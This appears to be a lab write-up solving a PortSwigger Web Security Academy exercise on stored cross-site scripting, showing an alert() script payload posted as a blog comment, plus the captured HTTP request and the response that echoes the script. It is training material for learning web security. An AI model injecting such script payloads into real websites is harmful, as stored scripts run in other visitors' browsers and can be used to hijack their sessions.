 ```yaml
---
title: >
  Solution to `Stored XSS into HTML context with nothing encoded`
---
```


The following is a solution to [Lab: Stored XSS into HTML context with nothing encoded](https://portswigger.net/web-security/cross-site-scripting/stored/lab-html-context-nothing-encoded).

Navigate to a blog post.

Leave the following payload in the body of a comment:
`<script>alert("boop");</script>`

This step is demonstrated in the screenshot below.
![A screenshot of the comment box with the alert("boop") payload as the body of the comment](/wsa-labs/docs/assets/alert()-poc-4202023-1.png)

Post the comment. Doing so solves the lab.

To see the effects of the alert() function, click Back to blog. The alert box should appear. This is shown in the screenshot below.
![A screenshot of the alert box with the message "boop"](/wsa-labs/docs/assets/alert()-poc-4202023-2.png)

The HTTP request associated with the action of posting the comment is below, as pulled from the HTTP history section of the Proxy tab in Burp Suite. The URL-encoded JavaScript can be seen at the bottom of the request.

~~~
POST /post/comment HTTP/2
Host: 0a3a001b0379440182b5e235007a00ac.web-security-academy.net
Cookie: [redacted]
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:109.0) Gecko/20100101 Firefox/111.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 183
Origin: https://0a3a001b0379440182b5e235007a00ac.web-security-academy.net
Referer: https://0a3a001b0379440182b5e235007a00ac.web-security-academy.net/post?postId=3
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Te: trailers

csrf=t2mkGTOtphNJPCANub2fdi6DX3X5cyP5&postId=3&comment=%3Cscript%3Ealert%28%22boop%22%29%3C%2Fscript%3E&name=Jean-Luc+Picard&email=email%40email.com&website=http%3A%2F%2Fwww.email.com
~~~

A snippet of the HTTP response when one navigates back to the blog appears below.

~~~
HTTP/2 200 OK
Content-Type: text/html; charset=utf-8
X-Frame-Options: SAMEORIGIN
Content-Length: 9494

<!DOCTYPE html>
<html>
...
<script>alert("boop")</script>
...
~~~